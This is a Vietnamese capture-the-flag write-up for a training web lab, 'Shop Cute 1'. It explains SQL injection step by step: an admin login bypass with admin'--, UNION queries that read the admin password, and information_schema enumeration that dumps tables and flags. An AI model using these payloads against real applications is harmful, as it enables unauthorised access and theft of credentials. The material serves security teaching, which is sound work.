







# Shop Cute 1

## __Sử dụng như người dùng:__
Mới vào thì sẽ hiển thị giao diện  
  
Vậy sẽ có 2 chức năng là `Đăng nhập` và `Đăng ký`.

- `Đăng ký`: Tạo tài khoản mới  

- `Đăng nhập`:  
  
Khi đăng nhập thành công  

- Chức năng `mua hàng`: Chỉ là ấn vào nút `Buy` sẽ hiện ra thông báo  


## __1. Login as admin__
### __Yêu cầu:__  


### __Khai thác:__
Mình sẽ tận dụng Payload là `admin'-- ` vào phần `Username` và `Password` sẽ điền bất kỳ.  
  
Vậy mình đã có được `Flag`.
> CBJS{now_you_know_SQL_injection} 

### __Giải thích:__  

Có vẻ như anh Dev đã dùng SQL query là: 
```sql
select username from <table chứa user> where username='<username input>' and password='<password input>'
```
Khi mình điền `payload` như trên vào thì câu query sẽ như này:
```sql
select username from <table chứa user> where username='admin'-- ' and password='<password input>'
```
Lúc này ở `where` điều kiện kiểm tra `username` đã đúng và phần kiểm tra password đã bị `comment` hết nên lệnh `select` đã được thực thi mà không cần `password`.

## __2. Read admin password__
### __Yêu cầu:__


### __Khai thác:__
Mình tận dụng `UNION` để lấy được dữ liệu trong database mà mình muốn. Mình sẽ thử test trên `db`.  


Với `UNION` mình sẽ gộp 2 dữ liệu của 2 bảng lại với nhau với điều kiện 2 bảng có cùng số cột. Ở ví dụ trên bảng bên trái khi mình `select` chỉ có 1 cột là `username` và bảng bên phải cũng chỉ có 1 cột nên có thể gộp lại với nhau.  
Nhưng có vẻ như khi lấy dữ liệu để đăng nhập vào thì chỉ lấy dòng đầu tiên. Kiểm chứng: 
  
  
Đúng là như vậy, trên website chỉ hiện mỗi tên admin.

Vậy nếu mình `select` mà `username` đó không tồn tại trong bảng đồng thời `union` với bảng khác có dữ liệu thì sẽ như thể nào?  
  
&rarr; Chỉ có dữ liệu của bảng khác. Mình sẽ `khongtontai' union select 'dinh'-- ` mang lên server  


Bây giờ mình sẽ thay `select 'dinh'` bằng câu lệnh khác để lấy được `password` của admin.

__Payload:__
```sql
khongtontai' union select password from users where username='admin'-- 
```


>CBJS{you_found_this}

## __3.Read data from another table__
### __Yêu cầu:__


### __Khai thác:__
Mình sẽ tìm cách để có thể đọc được tên của tất cả các `table` có trong `database`. Vậy mình sẽ đi Google search và mình tìm được 1 bài như ý muốn  
Link: https://stackoverflow.com/questions/8334493/get-table-names-using-select-statement-in-mysql  


Mình sẽ thử trong `mysql` trên local của mình  
  
và nó đã show ra tất cả các `table name` trên 1 bảng.

Lúc này các `table name` nằm trên từng dòng nhưng ở `Shop Cute` chỉ lấy 1 dòng đầu tiên vậy mình làm sao để có thể chuyển tất cả các `table name` thành 1 dòng nhỉ? Mình tiếp tục đi search và mình tìm được kết quả:  
Link: https://www.geeksforgeeks.org/mysql-group_concat-function/#:~:text=The%20GROUP_CONCAT()%20function%20in,Otherwise%2C%20it%20returns%20NULL.  
Mình sẽ dùng hàm`group_concat()` để chuyển toàn bộ thành 1 dòng duy nhất. Test trên Local:  
 
Nó hơi dài nhưng tất cả các `table name đã nằm trên 1 dòng` nhưng không đủ hiển thị tất cả nên mình đã chuyển sang một hướng mới là lúc đầu mình `select` các `database name` trong `mysql` rồi lấy tất cả các `table name` trong `database` vừa tìm.

Link show tất cả `database`: https://www.mysqltutorial.org/mysql-show-databases/

### __Payload:__
Show `database`:
```sql
ko' union SELECT group_concat(schema_name) FROM information_schema.schemata-- 
```


Show `table` trong `mysqli01`:
```sql
ko' union SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'mysqli01'-- 
```


Lấy `Flag` trong `flag_304ad593`:
```sql
ko' union SELECT * FROM flag_304ad593-- 
```


>CBJS{h3lpFul_inf0rmat1on_Sch3mA}